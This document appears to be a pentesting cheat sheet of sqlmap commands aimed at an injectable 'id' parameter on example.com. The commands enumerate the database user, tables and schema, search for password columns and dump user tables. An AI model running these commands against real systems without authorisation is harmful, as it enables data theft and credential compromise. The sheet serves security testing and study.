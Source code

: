 # Database Enumeration
`--hostname`
`--current-user`
`--current-db`
`--passwords`
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
###### Table Enumeration
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

```sqlmap
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```
###### Table/Row Enumeration
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

```sqlmap
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```
###### Conditional Enumeration
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
###### Full DB Enumeration
`--dump -D testdb`
`--dump-all`
`--exclude-sysdbs`
`--dump-all --exclude-sysdbs`
###### Dump Format
`--dump-format`
# Advanced Database Enumeration
###### Schema Enumeration
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --schema
```
###### Searching for Data
**Table**
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --search -T user
```
**Column**
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
###### Password Enumeration and Cracking
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```
